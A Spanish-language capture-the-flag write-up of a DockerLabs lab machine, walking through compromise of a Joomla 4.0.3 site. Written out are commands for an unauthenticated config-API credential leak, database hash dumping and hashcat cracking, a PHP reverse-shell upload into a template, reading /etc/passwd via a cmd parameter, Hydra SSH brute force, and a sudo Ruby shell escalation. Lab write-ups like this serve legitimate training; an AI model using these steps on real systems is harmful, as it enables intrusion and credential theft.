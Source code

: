 nmap: 22,80 3306

![image](https://github.com/user-attachments/assets/127b255b-eead-405d-ae0f-217aa3fc6a6b)

---

en la pagina principal hay un apache2 ubuntu, nada interesante tampoco en el código fuente

hacemos un gobuster:

       - # gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt  -t 20 -x php,html,txt -k

y nos da:

![image](https://github.com/user-attachments/assets/c5162c38-f072-4037-a84a-e6493cb0bd95)

entramos y tenemos pagina

![image](https://github.com/user-attachments/assets/962bf906-35fe-4292-8422-d8fd1704ad92)

en la pagina encontré esto interesante

![image](https://github.com/user-attachments/assets/5c7ed55c-e58f-4781-8a1a-d152f4d59ceb)

*buscar posible explotación:  Joomla 4.0.3*

> exploit encontrado: https://vulncheck.com/blog/joomla-for-rce

![[ve.png]]

utilizamos joomscan (JoomScan es una herramienta de escaneo de vulnerabilidades diseñada específicamente para aplicaciones web basadas en Joomla. Sirve para identificar posibles vulnerabilidades y debilidades en sitios web que utilizan este popular sistema de gestión de contenido (CMS):

       - joomscan -u http://172.17.0.2/wordpress/

nos da:

![[joomscan.png]]

entramos a los dos de robots.txt y administrador

![[robots.png]]

![[dockerlabs/dificil/vulnerame/admin.png]]

buscando también me llamo la atención esto

![[joomla version.png]]

hasta que encontré este comando

     curl -v http://172.17.0.2/wordpress/api/index.php/v1/config/application?public=true

y me dio las credenciales

![[usuarios.png]]


usuario: joomla_user
contraseña: vuln

probé en el login que teníamos en administrator, pero no funciono así que probé con la base de datos  


revisamos una posible base de datos con los usuarios encontrados:

      - mysql -h 172.17.0.2 -u joomla_user -pvuln

entramos a "mysql none":

     show databases; 

![[database.png]]

    use joomla_db
    show tables

![[show1.png]]


    select * from ffsnq_users;

nos da una contraseña encriptada:

![[pass1.png]]


utilizamos: https://hashes.com/en/decrypt/hash

       - $2y$10$UVmUci/wKgu7LFir7KIzP.NDup3lYDUxPzz7WZryvEYVdUjUVhou.
       - contraseña: bcrypt

creamos un archivo con la contraseña encriptada llamado "hash.txt"

en el terminal:
      
    hashcat -m 3200 hast.txt /usr/share/wordlists/rockyou.txt
    
nos da otra contraseña: 14344392
también nos da posible contraseña: tequieromucho

credenciales para admin:

      - firstatack
      - tequieromucho

vamos al login e ingresamos

![[dockerlabs/dificil/vulnerame/panel1.png]]

luego buscando en la pagina como admin vamos a:

> system > site templates > click en la pagina > index.php y cargamos un código php 

para conectarnos: https://github.com/pentestmonkey/php-reverse-shell
cambiamos IP y puerto: lo guardamos y en otra pestaña abrimos con la IP de la pagina mientras tenemos en escucha nuestro puerto 443, y entramos.
![[dockerlabs/dificil/vulnerame/conexion.png]]

luego de cargar en index.php la reverse la cargamos en el URL con el terminal en escucha

> http://172.17.0.2/wordpress/index.php?cmd=cat%20/etc/passwd

hacemos tratamiento de stty y buscamos como escalar.

dentro hay dos usuarios: guadalupe e ignacio y hacemos un ataque de fuerza bruta:

     hydra -l ignacio -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64

     hydra -l guadalupe -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64

![[dockerlabs/dificil/vulnerame/hydra.png]]

y tenemos la contraseña de ambos usuarios. con el que podemos escalar es con ignacio

![[dockerlabs/dificil/vulnerame/sudo -l.png]]

ya dentro del usuario Ignacio podemos ejecutar los "nano" así que modificamos el archivo "saludos.rb": 


      sudo /usr/bin/saludos.rb

         - exec "/bin/sh"
         - system "/bin/sh"

ejecutamos 

     sudo /usr/bin/ruby /usr/bin/saludos.rb

![[dockerlabs/dificil/vulnerame/root.png]]

y somos root! 
